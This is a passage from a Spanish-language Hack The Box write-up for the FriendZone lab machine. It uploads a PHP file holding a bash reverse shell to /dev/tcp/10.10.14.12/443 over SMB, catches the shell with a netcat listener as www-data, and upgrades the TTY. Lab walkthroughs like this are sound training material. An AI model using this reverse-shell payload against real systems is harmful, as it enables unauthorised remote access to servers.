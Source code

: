 ## Shell as www-data 

Pues bueno ahora vamos a ganar acceso ala maquina 

```bash
❯ cat pwned.php
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: pwned.php
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │         system("bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'");
   3   │ ?>
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Ahora lo subimos

```bash
smb: \> put pwned.php
putting file pwned.php as \pwned.php (0.2 kb/s) (average 0.1 kb/s)
smb: \> 
``` 

Nos podemos en escucha por el puerto indicado 

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Le damos al enter  

![](/assets/images/htb-writeup-friendzone/web17.png)

Y ganamos acceso

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.123] 40254
bash: cannot set terminal process group (904): Inappropriate ioctl for device
bash: no job control in this shell
www-data@FriendZone:/var/www/admin$ whoami
whoami
www-data
www-data@FriendZone:/var/www/admin$ 
```

Ahora hacemos un tratamiento de la **tty**

```bash
www-data@FriendZone:/var/www/admin$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@FriendZone:/var/www/admin$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
www-data@FriendZone:/var/www/admin$ export TERM=xterm
```
